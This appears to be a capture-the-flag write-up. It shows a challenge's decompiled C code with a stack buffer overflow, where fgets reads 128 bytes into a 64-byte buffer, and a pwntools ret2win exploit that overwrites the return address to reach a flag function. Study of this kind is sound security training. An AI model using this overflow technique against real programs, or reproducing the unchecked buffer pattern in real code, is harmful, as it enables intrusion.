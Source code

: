 Here is the decompiled code for the challenge.
```c
int main(void)
{
  int iVar1;
  char input [64];
  
  printf("What is the password?\n?: ");
  fflush(stdout);
  fgets(input,0x80,stdin);
  iVar1 = strcmp(input,"password\n");
  if (iVar1 != 0) {
    puts("incorrect password");
    fflush(stdout);
  }
  return 0;
}
```

There is a pretty large buffer overflow on the `input` variable and there also conveniently is a function called `flag` that displays the flag (and of course all the protections are disabled).  
This is a classic ret2win scenario where we have to overwrite the return pointer to jump to the `flag` function.  
A small python script using pwntools should do the job.
```python
io = start()

payload = flat(
        b'A'*(64+8),
        pack(elf.symbols.flag))

write("payload", payload)
io.sendlineafter(b'?: ', payload)
io.interactive()
```

I didn't save the flag but this works and solves the challenge.
